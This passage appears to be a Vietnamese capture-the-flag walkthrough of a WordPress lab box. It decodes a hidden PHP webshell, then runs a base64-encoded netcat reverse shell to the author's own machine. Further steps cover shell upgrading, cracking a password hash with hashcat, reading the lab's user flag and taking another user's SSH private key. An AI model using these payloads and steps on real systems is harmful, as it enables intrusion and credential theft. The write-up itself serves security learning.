 \155 (octal) = decimal 109 = 'm'

\x64 (hex) = decimal 100 = 'd'

\x6d (hex) = decimal 109 = 'm'

\144 (octal) = decimal 100 = 'd'

kết quả là :

if (isset($_GET["cmd"])) { system($_GET["cmd"]); }

Mã này cho phép bất kỳ ai gửi ?cmd= và máy chủ sẽ chạy lệnh đó. Rất dễ bị chiếm quyền, exfiltrate dữ liệu, cài webshell, tạo user, v.v.

tôi sẽ thử ngay tại trang http://www.smol.thm/wp-admin/index.php

<img width="655" height="191" alt="image" src="https://github.com/user-attachments/assets/f6c387da-4353-4f4a-9bfb-27b8de69e80d" />

thành công và tôi chuẩn bị cho đưa shell về máy tôi 

ta cần mã hóa payload này ở dạng base64

<img width="1265" height="866" alt="image" src="https://github.com/user-attachments/assets/2ef03dec-5ce0-475a-bc4e-2d14f17fa50f" />

http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC4xMDguMjI2IDEyMzQgLWUgc2g= | base64 -d | bash

sau đó ở máy kali

nc -lnvp 1234

<img width="605" height="189" alt="image" src="https://github.com/user-attachments/assets/ce4a6167-1b79-4d56-bae4-57054350a0f4" />

đã có được shell nhưng tôi sẽ nâng cấp shell lên 

python3 -c 'import pty;pty.spawn("/bin/bash")'

<img width="1215" height="772" alt="image" src="https://github.com/user-attachments/assets/53be070b-2e50-41f5-bdb3-58b859735dd3" />

<img width="1317" height="781" alt="image" src="https://github.com/user-attachments/assets/a70d4c43-ba31-447f-bb34-a96d05904681" />

tôi dùng hashcat để bẻ khóa băm của diego 

hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt -O -w 3

<img width="891" height="644" alt="image" src="https://github.com/user-attachments/assets/da840e48-1386-4089-9501-3baf30b38377" />

đã có password 

<img width="506" height="178" alt="image" src="https://github.com/user-attachments/assets/8edf1318-5ce3-4394-92d7-d20b6d9915c8" />

cờ user : 45edaec653ff9ee06236b7ce72b86963

tôi vào thử người dùng think sau đó lấy id_rsa 

<img width="793" height="613" alt="image" src="https://github.com/user-attachments/assets/5d3766f6-efcd-42dc-bdb6-0b76bc97c47c" />

sau đó sử dụng nó để đăng nhập ssh 

